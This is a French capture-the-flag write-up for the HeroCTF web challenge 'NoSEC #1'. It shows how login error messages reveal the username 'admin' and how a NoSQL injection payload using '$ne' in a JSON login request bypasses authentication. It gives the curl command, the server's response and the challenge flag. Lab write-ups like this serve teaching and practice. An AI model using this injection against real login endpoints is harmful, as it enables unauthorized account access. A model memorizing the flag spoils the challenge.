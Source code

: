 # NoSEC #1

### Catégorie

Web

### Description

Vous devez vous connecter pour valider le challenge !

http://challs.heroctf.fr:3000/login

Format: Hero{flag}

### Auteur

xanhacks

### Solution

Nous pouvons deviner le nom d'utilisateur "admin" en fonction des messages d'erreurs retourner par l'application.
test:test => Not match with this username !
admin:test => Wrong password !

Les données de la requête de connexion sont envoyées au format JSON.

{"username": "admin","password": "test"}

Grâce à cette information et au nom du challenge (NoSEC), nous pouvons deviner assez rapidement que ce challenge
est porté sur l'injection NoSQL.

Nous testons donc un payload assez simple :

{"username":"admin","password":{"$ne":"notvalidpassword"}}

Le nom d'utilisateur est "admin" et le mot de passe n'est pas égal (not equal => $ne) à "notvalidpassword".

```sh
curl -X POST --header "Content-Type: application/json" challs.heroctf.fr:3000/login \
    --data '{"username":"admin", "password": {"$ne": "notvalidpassword"}}'

{"state":"success","msg":"You can validate this challenge with: Hero{NoSQL_1Nject1on_wAw_1597}"}
```

### Flag

Hero{NoSQL_1Nject1on_wAw_1597}